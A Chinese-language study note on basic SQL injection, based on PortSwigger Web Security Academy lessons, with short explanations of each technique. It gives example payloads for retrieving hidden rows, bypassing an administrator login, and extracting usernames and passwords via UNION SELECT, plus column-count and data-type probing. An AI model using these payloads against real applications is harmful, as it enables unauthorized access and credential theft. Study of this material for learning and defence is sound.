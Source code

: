 # SQL injection入门

这是[PortSwigger/Web Security Academy/SQL injection](https://portswigger.net/web-security/sql-injection)的学习笔记。

非常基础的东西，可以用来了解SQL注入的常规用法。

## 获取隐藏数据

注释掉后面的条件

SELECT * FROM products WHERE category = 'Gifts`'--`' AND released = 1

查询出所有的products

SELECT * FROM products WHERE category = 'Gifts`' OR 1=1--`' AND released = 1

## 改变程序逻辑

无密码登录

SELECT * FROM users WHERE username = 'administrator`'--`' AND password = ''

## 获取另一个表中的数据

列出所有的用户名和密码

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT username, password FROM users--`'

UNION攻击需要满足两个条件：
1. 列数与原来的查询相同
2. 数据类型与原来的查询兼容

### 判断列数的方法

使用ORDER BY N排序，当N超出列数时报错

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 1--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 2--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 3--`'

使用UNION SELECT NULL，当NULL的个数与列数一致时不报错

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL--`'

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL,NULL--`'

### 测试列的数据类型

得到列的数量后，就需要测试列的数据类型，原理是类型不匹配时会报错

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT 'a',NULL--`'

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT NULL,'a'--`'

### 在一列中获取多个数据

有时候需要获取多个数据但是只有一个展示列，这时就需要合并数据

SELECT name FROM products WHERE category = 'Gifts`' UNION SELECT username || '~' || password FROM users--`'

